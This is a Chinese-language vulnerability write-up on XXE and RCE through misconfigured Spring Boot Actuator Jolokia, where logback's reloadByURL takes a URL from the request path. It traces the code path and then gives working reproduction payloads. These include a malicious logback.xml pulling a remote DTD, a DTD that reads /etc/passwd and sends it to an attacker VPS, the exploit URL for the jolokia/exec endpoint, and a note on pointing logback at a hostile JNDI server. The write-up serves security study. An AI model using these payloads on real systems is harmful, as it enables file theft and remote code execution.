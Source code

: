Spring Boot Actuator jolokia 配置不当导致的XXE漏洞
==================================================

一、漏洞简介
------------

Spring boot 会把 **/!** 解析成
*/*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。***前提条件*****查看jolokia/list中存在的 Mbeans，是否存在logback
库提供的reloadByURL方法**

    https://www.0-sec.org:9090/jolokia/list

![4140320665.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId22.png)

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**-\>**Jolokia**-\>**Logback**-\>**JNDI**-\>**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId27.png)

只要是 **/jolokia** 为第一个 **path**
节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler\#handleGetRequest**
里

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId28.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2**
这样能够保留 **/** 符号，后边用得到可以根据 **path** 节点新建 **JmxRequest** 对象大致如下图所示，有这么些类别可以指定

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId29.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest
类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest
的构造函数，如下所示

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId30.png)

跟进 initObjectName 函数，如下

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId31.png)

如上图，这里将 exec 后面的第一个 path 节点带进了
javax.management.ObjectName 构造函数中

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId32.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个
ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation
属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入
org.jolokia.http.HttpRequestHandler\#executeRequest
执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个
org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId33.png)

如上图，就是将 JmxExecRequst 中的 operation
做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments
转换成对应类型，最后执行 server.invoke
的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过
`/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator
就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId34.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个
reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId35.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是
String，但是不用方，ExecHandler 的 doHandRequest
当中会对目标函数的参数类型做适配，将 String 转换成 URL 。但是这里有个问题，因为需要指定 schema ，所以必须有类似 http://
这样的开头，而我们的 path 进去以后，会用 /
切割分组的，所以就需要用到前面的流程中对 uri
的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId36.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的跟进函数如下：

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId37.png)

继续跟进上图中的红色方框如下

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId38.png)

如上图所示，在调用 recordEvents
的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml
文件， xml 解析的过程就是发生在 recordEvents
的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下
recordEvents 执行过程，如下

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId39.png)

很简单，build 完成后直接 parse，那我们查看一下 build
的时候是否有做防护，如下

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId40.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢不方，我们查一查 logback insertFormJNDI 标签啥

![](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId41.png)

其中的 env-entry-name 就是指向 jndi
的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi
触发 java 反序列化，最终导致 RCE

### 漏洞复现

-   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```{=html}
<!-- -->
```
    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
    <a>&trick;</a>

-   在VPS上创建ian.dtd

```{=html}
<!-- -->
```
    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

![2.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId43.png)

-   开启http服务

```{=html}
<!-- -->
```
    python -m SimpleHTTPServer 80

-   远程访问logback.xml文件

```{=html}
<!-- -->
```
    https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml

![1.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId44.png)

-   可以看到服务器上也返回了响应日志    ![3.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId45.png){width="5.833333333333333in"
    height="0.3951881014873141in"}

参考链接
--------

> https://xz.aliyun.com/t/4258
>
> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/

